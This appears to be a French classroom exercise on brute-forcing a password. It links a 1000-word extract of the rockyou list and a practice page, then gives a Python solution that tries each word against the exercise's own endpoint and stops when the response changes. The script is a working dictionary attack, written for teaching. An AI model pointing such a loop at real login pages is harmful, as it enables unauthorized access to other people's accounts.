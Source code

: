 Nous allons utiliser un fichier beaucoup plus léger ne contenant que les 1000 premiers mots de passe : vous le trouverez à l'adresse [http://glassus1.free.fr/extraitrockyou.txt](http://glassus1.free.fr/extraitrockyou.txt){:target="_blank"} .

L'un de ces mots de passe est le mot de passe demandé à la page  [http://glassus1.free.fr/exoBF.html](http://glassus1.free.fr/exoBF.html){:target="_blank"} .

Lequel ?

??? note "Correction"
    ```python linenums='1'
    import requests

    page_error = requests.get("http://glassus1.free.fr/repBF.php?pass=")

    liste_mdp = open("extraitrockyou.txt").read().splitlines()

    url = "http://glassus1.free.fr/repBF.php?pass="

    for mdp in liste_mdp:
        new_url = url + mdp
        print(new_url)
        page_tentative = requests.get(new_url)
        if page_tentative.text != page_error.text:
            print("Le mot de passe est le suivant :", mdp)
            break
    ```





